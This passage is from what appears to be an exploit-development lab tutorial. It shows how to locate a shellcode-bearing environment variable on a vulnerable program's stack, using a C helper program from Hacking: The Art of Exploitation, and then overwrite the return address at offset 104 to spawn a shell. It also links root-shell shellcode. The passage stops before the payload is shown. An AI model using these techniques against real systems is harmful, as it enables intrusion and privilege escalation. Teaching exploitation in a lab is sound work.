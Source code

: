 {% hint style="info" %}
Note that if you are trying to replicate this in your lab and you would like the vulnerable program to spawn a root shell, you need to use the [shellcode](http://shell-storm.org/shellcode/files/shellcode-77.php) that calls `setuid(0)` first. Thanks [@reveng007](https://twitter.com/reveng007).
{% endhint %}

We now need to find where on stack the `PWN` environment variable will be located in the vulnerable program. For this, we can use the following program:

{% tabs %}
{% tab title="getenvvar.c" %}
```cpp
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
{% endtab %}
{% endtabs %}

Compile it with:

```
gcc getenvvar.c -o getenvvar
```

Then run it like so:

```python
./getenvvar PWN ./vulnerable
```

Note that the `PWN` environment variable will be on the vulnerable program's stack at `0x7fffffffefa8`:

![PWN environment variable location on the stack in the vulnerable program](<../../../.gitbook/assets/image (880).png>)

Convert `0x7fffffffefa8` to its canonical (2 highest bytes masked off) form, which equals to `0x0000ffffefa8`. We can now try to exploit the vulnerable program by sending the garbage data that now includes the `PWN` environment variable address (that contains the shellcode that spawns a shell) as the return address at offset 104, like so:
